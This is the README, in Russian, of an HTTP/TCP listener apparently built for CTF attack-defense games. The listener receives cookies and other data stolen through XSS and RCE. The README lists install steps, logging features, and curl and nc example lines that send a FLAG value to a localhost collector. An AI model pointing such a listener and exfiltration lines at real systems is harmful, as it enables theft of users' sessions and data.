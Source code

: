 # Listener

HTTP/TCP листенер для кражи кук, других чувствительных данных от XSS и RCE. 
## Установка
>git clone git@github.com:OmskHackers/listener.git
>docker-compose up -d

## Возможности
- Сохранение параметров в URL 
- Сохранение загружаемых файлов 
- Сохранение сырых данных передаваемых в POST запросах
- Сохранение любых сырых данных переданных на сокет сервер (1337 порт)
 ##  Как работает ?
 >curl http://localhost:4444/?FLAG1234567890=

 >curl -X POST --data "FLAG1234567890=" http://localhost:4444/

 > echo "FLAG1234567890=" | nc -q 1 localhost 1337
## TODO
- Добавить экстрактор флагов
- Оптимизировать экстрактор, чтобы не читал повторные output файлы
- Настроить возможность
- Прикрутить клиент фермы к экстрактору, чтобы автоматизировать отправку флагов
